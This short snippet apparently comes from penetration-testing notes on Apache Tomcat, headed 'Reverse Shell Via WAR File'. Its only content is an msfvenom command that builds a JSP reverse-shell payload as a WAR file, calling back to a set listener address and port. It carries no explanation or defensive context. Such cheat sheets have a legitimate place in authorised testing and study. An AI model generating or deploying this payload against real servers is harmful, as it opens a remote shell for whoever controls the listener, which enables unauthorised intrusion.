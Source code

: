 # Tomcat
## Reverse Shell Via WAR File
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.3 LPORT=80 -f war -o revshell.war
```